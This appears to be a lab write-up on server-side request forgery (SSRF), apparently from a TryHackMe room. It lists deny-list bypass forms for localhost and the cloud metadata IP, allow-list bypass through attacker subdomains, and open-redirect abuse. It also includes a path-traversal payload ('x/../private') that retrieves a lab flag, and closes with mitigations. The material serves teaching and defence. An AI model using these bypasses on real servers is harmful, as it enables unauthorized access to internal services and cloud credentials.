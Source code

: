 # 📌 Introduction to Server-Side Request Forgery (SSRF)

## ✅ Task 1: What is SSRF?

**Server-Side Request Forgery (SSRF)** is a web security vulnerability allowing attackers to induce a server into making unauthorized requests to internal or external resources.

### 🔍 Types of SSRF:

* **Regular SSRF:**
  The server directly returns data from the requested resource to the attacker.

* **Blind SSRF:**
  No direct response is returned. Attackers confirm exploitation indirectly via logs or external server interactions.

### ⚠️ Potential Impacts:

* Unauthorized internal network access
* Sensitive data extraction (credentials, configuration files)
* Bypass IP-based authentication
* Access restricted administrative endpoints

---

## ✅ Task 2: SSRF Examples

Typical SSRF occurs when web apps fetch external resources without proper input validation.

**Example Exploit:**
An attacker could request internal admin pages:

```
http://127.0.0.1/admin
```

---

## ✅ Task 3: Finding an SSRF

Common places to find potential SSRF:

1. **Full URL Parameter (GET Request):**

```
https://website.thm/form?server=http://server.website.thm/store
```

2. **Hidden HTML Form Fields:**

```html
<form method="post" action="/form">
    <input type="hidden" name="server" value="http://server.website.thm/store">
</form>
```

3. **Hostname Parameters:**

```
https://website.thm/form?server=api
```

4. **Path-Based Parameters:**

```
https://website.thm/form?dst=/forms/contact
```

---

## ✅ Task 4: Defeating Common SSRF Defenses

### 🔒 Bypassing Deny Lists:

Commonly blocked resources like `localhost` or internal IPs (`127.0.0.1`) can be accessed via alternative representations:

* `localhost`
* `127.1`, `127.0.0.1`, `127.*.*.*`
* Decimal form: `2130706433`
* Subdomains resolving to internal IP: `127.0.0.1.nip.io`

Cloud metadata IP (e.g., AWS: `169.254.169.254`) can similarly be bypassed using DNS redirections.

### 🔓 Bypassing Allow Lists:

Allowed domains (e.g., `https://website.thm`) might be bypassed using attacker-controlled subdomains:

* Allowed:

```
https://website.thm
```

* Bypass:

```
https://website.thm.attackers-domain.com
```

### 🔀 Using Open Redirects:

Use open redirect endpoints to redirect requests to internal resources:

* Original allowed URL:

```
https://website.thm/link?url=https://trusted.com
```

* SSRF using open redirect:

```
https://website.thm/link?url=http://internal-resource
```

---

## ✅ Task 5: SSRF Practical Walkthrough

1. **Create Account & Log In:**

* Access:

```
https://LAB_WEB_URL.p.thmlabs.com/customers/new-account-page
```

2. **Inspect Avatar HTML:**

```html
<div class="avatar-image" style="background-image: url('/assets/avatars/1.png')"></div>
<input type="radio" name="avatar" value="assets/avatars/1.png">
```

3. **Select Avatar & Update:**

* Choose an avatar, click "Update Avatar".

4. **Confirm Base64 Avatar Image:**

```html
<div class="avatar-image" style="background-image: url(data:image/png;base64,...)"></div>
```

5. **Attempt SSRF (initial):**

* Right-click avatar → Inspect → Edit input:

```html
<input type="radio" name="avatar" value="private">
```

* Submit form and receive an error:

```
URL cannot start with /private
```

6. **Bypass Using Path Traversal:**

* Edit input again:

```html
<input type="radio" name="avatar" value="x/../private">
```

* Server interprets this as `/private`, bypassing deny list rules.

7. **Retrieve & Decode Flag:**

* After updating, inspect the avatar again.
* The server returns base64 data from the `/private` endpoint.
* Decode this base64 data to obtain the hidden flag.

---

## ✅ Recommendations & Mitigations:

* Employ strict URL validation (whitelisting).
* Prevent user-controlled URLs from accessing internal resources.
* Explicitly block sensitive IP addresses (`127.0.0.1`, `localhost`, `169.254.169.254`).
* Implement robust server-side input validation and filtering.

---

✅ **Happy Hacking! 🎉**
